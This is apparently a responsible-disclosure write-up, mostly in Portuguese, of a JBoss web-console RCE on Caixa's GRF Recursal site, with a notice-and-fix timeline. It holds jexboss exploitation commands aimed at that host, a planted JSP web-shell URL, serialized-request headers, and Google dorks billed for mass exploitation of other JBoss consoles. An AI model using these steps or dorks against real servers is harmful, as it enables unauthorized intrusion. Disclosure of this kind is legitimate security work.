






Basicamente a vulnerabilidade é um RCE que se encontra no sistema GRF Recursal da Caixa, onde é possivel executar códigos maliciosos de forma remota dentro do servidor. GRF ou Guia de Recolhimento do FGTS é a guia de recolhimento com código de barras para recolhimento regular do FGTS, sendo gerada logo após a transmissão do arquivo SEFIP.
* Sub domain: http://www.grfrecursal.caixa.gov.br* Jboss Version vulnerable: 4.2.3.GA
* OS: Linux 2.6.32-431.11.2.el6.x8664 (amd64)
* URI: http://www.grfrecursal.caixa.gov.br/web-console/* System info: Linux aa0000vx056 2.6.32-431.11.2.el6.x8664 #1 SMP Mon Mar 3 13:32:45 EST 2014 x8664 x8664 x86_64 GNU/Linux
Documentation:https://developer.jboss.org

The JBoss Application Server (JBoss AS) is a widely used, open source Java application server. It is part of the JBoss Enterprise Middleware Suite (JEMS) and often used in large enterprise installations. The JBoss AS allows the development and deployment of Java Platform, Enterprise Edition (JEE) applications, web applications and portals. JBoss AS installations can be found in a variety of environments, ranging from large enterprises’ classic web sites over client-server installations for business software up to control applications for telephone systems. This means that many organisations have JBoss AS installations without knowing exactly how they work.

Web-console: The Web console can be used to display the JNDI tree, dump the list of threads, redeploy an application or even shutdown the application server. By default, the console is not secured and can be used by remote attackers. Check References for detailed information.
Web-console/Invoker ~> www.grfrecursal.caixa.gov.br/web-console/Invoker

Detecting Jboss:
JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server and others Java Platforms, Frameworks, Applications, etc.
- Tool JexBoss - JBoss (and others Java Deserialization Vulnerabilities) verify and Exploitation Tool: https://github.com/joaomatosf/jexboss
Mass exploitation - Dorks:
Intitle: ”jboss management console” “application server” version inurl:”web-console”
intitle: ”JBoss Management Console – Server Information” “application server”
inurl:”web-console” OR inurl:”jmx-console”
inurl: "/web-console/Invoker"
References: http://blog.inurl.com.br/2015/06/jexboss-jboss-verify-tool-inurlbr-mass.html
http://blog.inurl.com.br/2015/06/jboss-seam-2-remote-command-execution.html
Exploiting
* ./jexboss.py -u http://www.grfrecursal.caixa.gov.br/ --cmd ls
* Remote shell: www.grfrecursal.caixa.gov.br/jexws3/jexws3.jsp?ppp=ls%20-la


Payload
POST /web-console/Invoker HTTP/1.1
Host: www.grfrecursal.caixa.gov.br
Accept-Encoding: identity
Content-Length: 574
Connection: keep-alive
Content-Type: application/x-java-serialized-object; class=org.jboss.console.remote.RemoteMBeanInvocation
Accept: text/html, image/gif, image/jpeg, ; q=.2, */; q=.2
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:38.0) Gecko/20100101 Firefox/38.0

Notificação: 02/05/2017
Resposta do responsável: 02/05/2017
Correção: 02/05/2017
Data de postagem: 03/05/2017 
References:
- https://www.redteam-pentesting.de/publications/2009-11-30-WhitepaperWhos-the-JBoss-nowRedTeam-Pentesting_EN.pdf
- https://media.blackhat.com/bh-eu-10/presentations/Papathanasiou/BlackHat-EU-2010-Papathanasiou-Abusing-JBoss-slides.pdf
- https://www.defcon.org/images/defcon-18/dc-18-presentations/Krpata/DEFCON-18-Krpata-Attacking-JBoss.pdf